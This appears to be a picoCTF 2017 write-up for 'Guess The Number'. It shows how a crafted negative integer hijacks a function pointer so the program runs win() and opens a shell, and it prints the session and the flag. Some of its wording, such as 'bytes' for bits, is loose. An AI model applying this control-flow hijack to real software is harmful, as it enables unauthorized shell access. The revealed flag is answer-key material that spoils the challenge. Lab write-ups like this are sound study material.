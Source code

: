 ### Guess The Number - 75 points

> Just a simple number-guessing game. How hard could it be? Binary Source. Connect on shell2017.picoctf.com:20545.

Hint:
> * What is the program doing with your input number?
> * strtol checks for overflow, but it does allow negative numbers...

We are presented with a piece of code, that has a function called win that is called.
```
void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}
```
We know we have to overflow, but what do we need to write?
The main function does this:
```
char buf[32] = "";
...
scanf("%32s", buf);
val = strtol(buf, NULL, 10);
...
val >>= 4;
((void (*)(void))val)();
```
So, the function converts our input into a long (strtol), shifts 4 bytes to the right and creates a function pointer with the result.
Logically, we want this result to be the address of the win function.
Using gdb, we can print it by:
```
(gdb) p win                                                                                       
$1 = {<text variable, no debug info>} 0x804852b <win>  
```
Let's reverse the operations so we can get to the real input:
For that, we need to shift our address 4 bytes to the left.
We can use this online calculator:
http://www.miniwebtool.com/bitwise-calculator/bit-shift/
The operation will give us the following:
```
hex: 804852b0
decimal: 2152223408
```
Now, as the hint says, we need to underflow the the strtol function, so it gives us that value.
The biggest value a int can have is:
```
2147483647
```
Now we do the following operations:
```
2152223408 - 2147483647 = 4739761
4739761 - 2147483647 = -2142743886
```
Finally, we pass that value to the program, which gives us the flag:
```
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743886                       
You entered -2142743886. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ ls
flag.txt
guess_num
xinetd_wrapper.sh
$ cat flag.txt
181db5615729e295ea7a5d5773c3829b
```

Flag:

```
181db5615729e295ea7a5d5773c3829b
```